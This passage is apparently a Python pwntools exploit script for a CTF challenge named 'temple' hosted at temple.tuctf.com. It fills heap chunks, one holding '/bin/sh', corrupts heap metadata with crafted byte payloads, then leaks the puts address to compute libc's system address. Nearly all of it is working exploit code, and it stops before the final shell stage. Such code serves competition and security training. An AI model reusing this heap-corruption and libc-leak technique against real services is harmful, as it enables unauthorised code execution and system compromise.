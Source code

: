  ```
    pc.recvuntil('you hold?:')
    pc.sendline(str(count))
    pc.recvuntil(' your wisdom?:')
    pc.sendline(wisdom)
    return pc.recvuntil(prompt)


def rethink(pc, index, wisdom, intr=False):
    pc.sendline('3')
    pc.recvuntil('to rethink?:')
    pc.sendline(str(index))
    pc.recvuntil('this differently?:')
    pc.sendline(wisdom)
    return pc.recvuntil(prompt)


def to_int(addr):
    return struct.unpack('Q', addr)[0]


def to_addr(n):
    return struct.pack('Q', n)


def main():
    # For locale tests
    # libc = ELF('/lib/x86_64-linux-gnu/libc-2.24.so')
    # pc = process('./temple')
    
    libc = ELF('./libc.so.6')
    pc = remote('temple.tuctf.com', 4343)
    pc.recvuntil(prompt)

    give(pc, 32, '/bin/sh')
    give(pc, 32, 'BBBB')
    give(pc, 32, 'CCCC')
    give(pc, 32, 'DDDD')
    give(pc, 32, 'EEEE')
    give(pc, 32, 'FFFF')
    give(pc, 32, 'GGGG')
    give(pc, 32, 'HHHH')
    give(pc, 32, 'IIII')
    give(pc, 32, 'JJJJ')
    give(pc, 32, 'KKKK')
    give(pc, 32, 'FFFF')
    give(pc, 32, 'GGGG')
    give(pc, 32, 'HHHH')
    give(pc, 32, 'IIII')
    give(pc, 32, 'JJJJ')
    give(pc, 32, 'KKKK')

    rethink(pc, 10, 'BBBBBB\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x90')
    take(pc, 11)
    give(pc, 32, '\xff\xff\x00\x00\x00\x00\x00\x00\x18\x30\x60\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x10\x1c\x40\x00\x00\x00\x00\x00')
    print(pc.recvuntil(':'))

    puts   = take(pc, 10)[1:9]
    system = to_addr(to_int(puts) - libc.symbols['puts'] + libc.symbols['system'])
    print('Puts address:   ' + hex(to_int(puts)))
    print('System address: ' + hex(to_int(puts)))

 ```